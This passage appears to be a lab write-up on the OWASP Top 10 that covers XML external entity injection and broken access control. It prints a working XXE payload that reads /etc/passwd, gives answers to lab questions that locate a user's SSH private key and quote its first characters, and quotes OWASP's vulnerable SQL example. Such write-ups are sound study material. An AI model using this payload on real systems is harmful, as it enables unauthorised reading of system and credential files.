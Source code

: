 ```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

Here again, we are defining an *ENTITY* with the name *read* but the difference is that we are setting it value to `SYSTEM` and path of the file.

* If we use this payload then a website vulnerable to **XXE**(normally) would display the content of the file */etc/passwd*.

* In a similar manner, we can use this kind of payload to read other files but a lot of times you can fail to read files in this manner or the reason for failure could be the file you are trying to read.

### Exploiting

```
export IP=10.10.44.213
```

---

using the 2 payload discused earlier we perform those tasks

1. What is the name of the user in /etc/passwd

```
falcon
```

2. Where is falcon's SSH key located?

```
/home/falcon/.ssh/id_rsa
```

3. What are the first 18 characters for falcon's private key

```
MIIEogIBAAKCAQEA7bq
```

## Broken Access Control

* Websites have pages that are protected from regular visitors
* A regular visitor being able to access protected pages, can lead to the following:

    * Being able to view sensitive information
    * Accessing unauthorized functionality

* **OWASP** have a listed a few attack scenarios demonstrating access control weaknesses:

    * **Scenario #1**: The application uses unverified data in a SQL call that is accessing account information:

    ```
    pstmt.setString(1, request.getParameter("acct"));
    ResultSet results = pstmt.executeQuery( );
    ```
    